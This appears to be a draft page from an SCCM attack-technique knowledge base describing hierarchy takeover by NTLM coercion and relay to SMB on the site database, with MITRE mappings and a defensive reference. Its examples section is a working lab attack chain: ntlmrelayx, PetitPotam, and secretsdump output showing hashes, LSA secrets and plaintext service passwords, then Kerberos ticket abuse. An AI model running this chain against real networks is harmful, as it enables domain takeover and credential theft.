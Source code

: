 # TAKEOVER-2
## Description
Hierarchy takeover via NTLM coercion and relay to SMB on remote site database

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement

## Requirements
-
-

## Summary

## Impact

## Subtechniques
- TAKEOVER-2.1: Coerce primary site server
- TAKEOVER-2.2: Coerce passive site server

## Defensive IDs
- [PREVENT-1: Patch SCCM Site Server with KB15599094](../defense-techniques/PREVENT/PREVENT-1/prevent-1_description.md)

## Examples
The steps to execute TAKEOVER-2.1 and TAKEOVER-2.2 are mostly the same except that a different system is targeted for coercion of NTLM authentication.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the site database server:


### Windows
1. 


### Linux
1. Start `ntlmrelayx` with a SOCKS proxy
```
# impacket-ntlmrelayx -smb2support -ts -ip 192.168.57.130 -t 192.168.57.31 -socks
Impacket v0.11.0 - Copyright 2023 Fortra

[2024-03-01 12:51:57] [*] Protocol Client MSSQL loaded..
[2024-03-01 12:51:57] [*] Protocol Client LDAPS loaded..
[2024-03-01 12:51:57] [*] Protocol Client LDAP loaded..
[2024-03-01 12:51:57] [*] Protocol Client RPC loaded..
[2024-03-01 12:51:57] [*] Protocol Client HTTP loaded..
[2024-03-01 12:51:57] [*] Protocol Client HTTPS loaded..
[2024-03-01 12:51:57] [*] Protocol Client IMAPS loaded..
[2024-03-01 12:51:57] [*] Protocol Client IMAP loaded..
[2024-03-01 12:51:57] [*] Protocol Client SMTP loaded..
[2024-03-01 12:51:57] [*] Protocol Client SMB loaded..
[2024-03-01 12:51:57] [*] Protocol Client DCSYNC loaded..
[2024-03-01 12:51:58] [*] Running in relay mode to single host
[2024-03-01 12:51:58] [*] SOCKS proxy started. Listening at port 1080
[2024-03-01 12:51:58] [*] HTTPS Socks Plugin loaded..
[2024-03-01 12:51:58] [*] HTTP Socks Plugin loaded..
[2024-03-01 12:51:58] [*] MSSQL Socks Plugin loaded..
[2024-03-01 12:51:58] [*] IMAP Socks Plugin loaded..
[2024-03-01 12:51:58] [*] SMB Socks Plugin loaded..
[2024-03-01 12:51:58] [*] SMTP Socks Plugin loaded..
[2024-03-01 12:51:58] [*] IMAPS Socks Plugin loaded..
[2024-03-01 12:51:58] [*] Setting up SMB Server
[2024-03-01 12:51:58] [*] Setting up HTTP Server on port 80
[2024-03-01 12:51:58] [*] Setting up WCF Server
[2024-03-01 12:51:58] [*] Setting up RAW Server on port 6666
```

2. Coerce auth

```
# python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p P@ssw0rd 192.168.57.130 192.168.57.50 

Trying pipe lsarpc
[-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

3. Receive connection on relay server

```
[2024-03-01 12:53:19] [*] SMBD-Thread-11 (process_request_thread): Received connection from 192.168.57.50, attacking target smb://192.168.57.31
[2024-03-01 12:53:19] [*] Authenticating against smb://192.168.57.31 as MAYYHEM/SITE-SERVER$ SUCCEED
[2024-03-01 12:53:19] [*] SOCKS: Adding MAYYHEM/SITE-SERVER$@192.168.57.31(445) to active SOCKS connection. Enjoy
[2024-03-01 12:53:19] [*] SMBD-Thread-12 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!
[2024-03-01 12:53:19] [*] SMBD-Thread-13 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!
[2024-03-01 12:53:19] [*] SMBD-Thread-14 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!
[2024-03-01 12:53:19] [*] SMBD-Thread-15 (process_request_thread): Connection from 192.168.57.50 controlled, but there are no more targets left!

ntlmrelayx> socks
Protocol  Target         Username              AdminStatus  Port 
--------  -------------  --------------------  -----------  ----
SMB       192.168.57.31  MAYYHEM/SITE-SERVER$  TRUE         445 
```

4. Proxy in secretsdump

```
# proxychains impacket-secretsdump MAYYHEM/SITE-SERVER\$@192.168.57.31
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.57.31:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xc572147b3e06ec7f803013a6a063b524
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2b073c86868014e813942f6a91c031bd:::
[*] Dumping cached domain logon information (domain/username:hash)
MAYYHEM.LOCAL/sccmadmin:$DCC2$10240#sccmadmin#9c5f6da0aea59713bb5f5dc02c638b48: (2024-02-29 18:49:56)
MAYYHEM.LOCAL/Administrator:$DCC2$10240#Administrator#dfb35a65f92d8af602f08e358a58dc42: (2024-02-24 18:21:18)
MAYYHEM.LOCAL/sqlsvc:$DCC2$10240#sqlsvc#e12866f9a8777ddbe39ae1380ac6346c: (2024-03-01 17:23:29)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MAYYHEM\SITE3-DB$:aes256-cts-hmac-sha1-96:007976468ea0315075ce15a87f4c53d84fb3ad113076f362ec9dc0f79281ba03
MAYYHEM\SITE3-DB$:aes128-cts-hmac-sha1-96:2d8e3cd4527e138dc7b575e411bb3068
MAYYHEM\SITE3-DB$:des-cbc-md5:83f1c8c46ead7ca4
MAYYHEM\SITE3-DB$:plain_password_hex:6100690040005a0044005100330033006e0059005a006a002c00530057006f002b0070005d00410020002500470052005100720045006d00630037006d00610066002600590074003e0058006d00780058005100740073003a0043002b0070003a004b0079006f0046004b0036004100330072007a002c0041003600320023002900550068002900630058007a004a006e002d0070004c005e006c0066004f003c006000470048005a00320068002b005a0061007800670040004700750040003500250061006f004600240028004400780025002e00730048005c003f0024006a003000710074004f0071007a006d00
MAYYHEM\SITE3-DB$:aad3b435b51404eeaad3b435b51404ee:1eca4d3eef64b6aaf28ed0a528afbaf0:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xf4704cc00adfc198ca52f755a535d43c42054a44
dpapi_userkey:0x09f0ba58ff1d4b67d7d24bf126ff33e682b57fcf
[*] NL$KM 
 0000   29 78 85 64 E8 D8 57 5E  62 0F 15 6D 78 D3 C3 BD   )x.d..W^b..mx...
 0010   D1 11 71 D7 E1 D6 75 B5  F3 90 9B AD 3E C7 07 6E   ..q...u.....>..n
 0020   C4 EE 9C DC 2E 43 E7 C3  9A 2E 98 5B A3 7B 8E E1   .....C.....[.{..
 0030   72 8F 2B A0 4A 4D BE D0  AB CB 42 A7 61 E5 B0 C1   r.+.JM....B.a...
NL$KM:29788564e8d8575e620f156d78d3c3bdd11171d7e1d675b5f3909bad3ec7076ec4ee9cdc2e43e7c39a2e985ba37b8ee1728f2ba04a4dbed0abcb42a761e5b0c1
[*] _SC_MSSQLSERVER 
MAYYHEM\sqlsvc:P@ssw0rd
[*] _SC_SQLSERVERAGENT 
MAYYHEM\sqlsvc:P@ssw0rd
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

5. Get TGT for SQL service account running the site database

```
# impacket-getTGT MAYYHEM/sqlsvc:P@ssw0rd                                  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Saving ticket in sqlsvc.ccache

```

6. S4U

```
# python3 gets4uticket.py kerberos+ccache://mayyhem.local\\sqlsvc:sqlsvc.ccache@dc.mayyhem.local MSSQLSvc/SITE3-DB.MAYYHEM.LOCAL:1433@mayyhem.local site-server@mayyhem.local s4u.ccache -v
```



## References
Author, Title, URL
